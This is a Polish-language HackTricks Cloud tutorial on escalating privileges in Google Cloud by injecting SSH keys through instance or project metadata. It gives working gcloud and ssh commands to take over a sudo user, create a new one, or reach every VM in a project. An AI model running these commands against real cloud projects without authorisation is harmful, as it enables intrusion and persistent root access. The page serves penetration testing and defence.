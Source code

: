 # GCP - Dodawanie niestandardowych metadanych SSH

{% hint style="success" %}
Dowiedz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Dowiedz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wesprzyj HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) na githubie.

</details>
{% endhint %}

## Modyfikacja metadanych <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Modyfikacja metadanych na instancji może prowadzić do **znacznych ryzyk bezpieczeństwa, jeśli atakujący uzyska wymagane uprawnienia**.

### **Dodawanie kluczy SSH do niestandardowych metadanych**

Na GCP, **systemy Linux** często wykonują skrypty z [Python Linux Guest Environment dla Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). Istotnym elementem jest tu [demon kont](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), który jest zaprojektowany do **regularnego sprawdzania** punktu końcowego metadanych instancji w poszukiwaniu **aktualizacji autoryzowanych kluczy publicznych SSH**.

Dlatego jeśli atakujący może modyfikować niestandardowe metadane, może sprawić, że demon znajdzie nowy klucz publiczny, który zostanie przetworzony i **zintegrowany z lokalnym systemem**. Klucz zostanie dodany do pliku `~/.ssh/authorized_keys` istniejącego użytkownika lub potencjalnie utworzy nowego użytkownika z uprawnieniami `sudo`, w zależności od formatu klucza. Atakujący będzie w stanie skompromitować hosta.

### **Dodaj klucz SSH do istniejącego uprzywilejowanego użytkownika**

1. **Sprawdź Istniejące Klucze SSH na Instancji:**
- Wykonaj polecenie opisujące instancję i jej metadane, aby zlokalizować istniejące klucze SSH. Odpowiednią sekcją w wyniku będzie `metadata`, a konkretnie klucz `ssh-keys`.
```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
- Zwróć uwagę na format kluczy SSH: nazwa użytkownika poprzedza klucz, oddzielone dwukropkiem.

2. **Przygotuj plik tekstowy na potrzeby metadanych klucza SSH:**
- Zapisz szczegóły nazw użytkowników i odpowiadających im kluczy SSH do pliku tekstowego o nazwie `meta.txt`. Jest to istotne dla zachowania istniejących kluczy podczas dodawania nowych.

3. **Wygeneruj nowy klucz SSH dla docelowego użytkownika (`alice` w tym przykładzie):**
- Użyj polecenia `ssh-keygen`, aby wygenerować nowy klucz SSH, upewniając się, że pole komentarza (`-C`) odpowiada nazwie użytkownika docelowego.
```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
- Dodaj nowy klucz publiczny do `meta.txt`, naśladując format znaleziony w metadanych instancji.

4. **Zaktualizuj Metadane Klucza SSH Instancji:**
- Zastosuj zaktualizowane metadane klucza SSH do instancji, używając polecenia `gcloud compute instances add-metadata`.
```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```

5. **Zaloguj się do Instancji, Korzystając z Nowego Klucza SSH:**
- Połącz się z instancją za pomocą SSH, używając nowego klucza, uzyskując dostęp do powłoki w kontekście użytkownika docelowego (`alice` w tym przykładzie).
```bash
ssh -i ./key alice@localhost
sudo id
```

### **Utwórz nowego uprzywilejowanego użytkownika i dodaj klucz SSH**

Jeśli nie zostanie znaleziony żaden interesujący użytkownik, istnieje możliwość utworzenia nowego, który otrzyma uprawnienia `sudo`:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
### Klucze SSH na poziomie projektu <a href="#sshing-around" id="sshing-around"></a>

Możliwe jest poszerzenie zakresu dostępu SSH do wielu maszyn wirtualnych (VM) w środowisku chmurowym poprzez **zastosowanie kluczy SSH na poziomie projektu**. Ten podejście umożliwia dostęp SSH do dowolnej instancji w ramach projektu, która nie zablokowała kluczy SSH na poziomie projektu. Oto zwięzły przewodnik:

1. **Zastosuj klucze SSH na poziomie projektu:**
- Użyj polecenia `gcloud compute project-info add-metadata`, aby dodać klucze SSH z pliku `meta.txt` do metadanych projektu. Ta czynność zapewnia, że klucze SSH są rozpoznawane we wszystkich maszynach wirtualnych w projekcie, chyba że instancja ma włączoną opcję "Zablokuj klucze SSH na poziomie projektu".
```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **SSH do instancji przy użyciu kluczy na poziomie projektu:**
- Dzięki kluczom SSH na poziomie projektu, możesz łączyć się przez SSH z dowolną instancją w ramach projektu. Instancje, które nie blokują kluczy na poziomie projektu, zaakceptują klucz SSH, umożliwiając dostęp.
- Bezpośrednią metodą SSH do instancji jest użycie polecenia `gcloud compute ssh [INSTANCJA]`. Polecenie to używa twojej bieżącej nazwy użytkownika i kluczy SSH ustawionych na poziomie projektu do próby dostępu.


# Referencje
* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)
